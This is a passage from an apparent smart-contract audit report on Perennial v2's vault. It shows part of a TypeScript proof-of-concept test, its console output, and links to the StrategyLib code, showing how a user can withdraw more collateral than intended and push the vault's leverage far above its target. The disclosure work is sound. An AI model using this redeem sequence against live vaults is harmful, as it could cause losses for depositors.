 ```ts

    // now redeem 11000 (which is allowed, but market position will be 2000 due to closable)
    var redeem = parse6decimal('11500')
    console.log("Redeeming 11500")
    await vault.connect(user).update(user.address, 0, redeem, 0);

    // settle all changes
    await setOracle(STARTING_TIMESTAMP.add(3900), STARTING_TIMESTAMP.add(4000))
    await vault.settle(user.address)
    await logLeverage();

    // claim those assets we've withdrawn
    var claim = parse6decimal('11100')
    console.log("Claiming 11100")
    await vault.connect(user).update(user.address, 0, 0, claim);

    await logLeverage();
})
```

Console log from execution of the code above:
```solidity
start
ETH Limit = 1000000000 CurrentGlobal = 200000000 CurrentUser = 200000000 price = 2620237388 availToken = 12212633 maker = 987787367
BTC Limit = 100000000 CurrentGlobal = 20000000 CurrentUser = 20000000 price = 38838362695 availToken = 205981 maker = 99794019
market updated
Vault collateral = 12000 pos = 39999 leverage = 3333330
reduce maker blocking position to allow vault maker increase
Deposit small amount to increase position
Redeeming 11500
Vault collateral = 12010 pos = 8040 leverage = 669444
Claiming 11100
Vault collateral = 910 pos = 8040 leverage = 8835153
```

## Code Snippet

`maxRedeem` limits redeem amount by `closable * LEVERAGE_BUFFER`:
https://github.com/sherlock-audit/2023-10-perennial/blob/main/perennial-v2/packages/perennial-vault/contracts/lib/StrategyLib.sol#L94-L98

`_positionLimit` calculates minimum possible position by reducing current position by max of `closable`:
https://github.com/sherlock-audit/2023-10-perennial/blob/main/perennial-v2/packages/perennial-vault/contracts/lib/StrategyLib.sol#L219-L224

The difference in these values allows to keep high position while withdrawing more collateral than needed to target leverage.

## Tool used

